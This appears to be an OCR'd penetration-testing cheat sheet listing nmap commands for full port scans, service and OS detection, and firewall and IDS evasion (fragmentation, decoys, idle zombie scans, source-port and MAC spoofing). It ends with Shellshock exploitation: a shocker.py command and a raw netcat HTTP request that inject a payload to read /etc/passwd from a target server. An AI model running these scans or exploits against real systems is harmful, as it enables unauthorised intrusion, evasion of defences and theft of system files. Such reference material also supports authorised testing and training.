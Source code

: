 	$ nmap -sU -T4 -Pn -p 0-65535 -oN FullUDP -iL LiveHosts.txt
	# Print TCP\UDP Ports
	$ grep "open" FullTCP|cut -f 1 -d ' ' | sort -nu | cut -f 1 -d '/' |xargs | sed 's/ /,/g'|awk '{print "T:"$0}'
	$ grep "open" FullUDP|cut -f 1 -d ' ' | sort -nu | cut -f 1 -d '/' |xargs | sed 's/ /,/g'|awk '{print "U:"$0}'
	# Detect Service Version
	$ nmap -sV -T4 -Pn -oG ServiceDetect -iL LiveHosts.txt
	# Operating System Scan
	$ nmap -O -T4 -Pn -oG OSDetect -iL LiveHosts.txt
	# OS and Service Detect
	$ nmap -O -sV -T4 -Pn -p U:53,111,137,T:21-25,80,139,8080 -oG OS_Service_Detect -iL LiveHosts.txt
	Nmap – Techniques for Avoiding Firewalls
	# fragmentation
	$ nmap -f
	# change default MTU size number must be a multiple of 8 (8,16,24,32 etc)
	$ nmap --mtu 24
	# Generates a random number of decoys
	$ nmap -D RND:10 [target]
	# Manually specify the IP addresses of the decoys
	$ nmap -D decoy1,decoy2,decoy3 etc.
	# Idle Zombie Scan, first t need to find zombie ip
	$ nmap -sI [Zombie IP] [Target IP]
	# Source port number specification
	$ nmap --source-port 80 IP
	# Append Random Data to scan packages
	$ nmap --data-length 25 IP
	# MAC Address Spoofing, generate different mac for host pc
	$ nmap --spoof-mac Dell/Apple/3Com IP


	Exploit servers to Shellshock
	# A tool to find and exploit servers vulnerable to Shellshock
	# https://github.com/nccgroup/shocker
	$ ./shocker.py -H 192.168.56.118  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
	# cat file
	$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80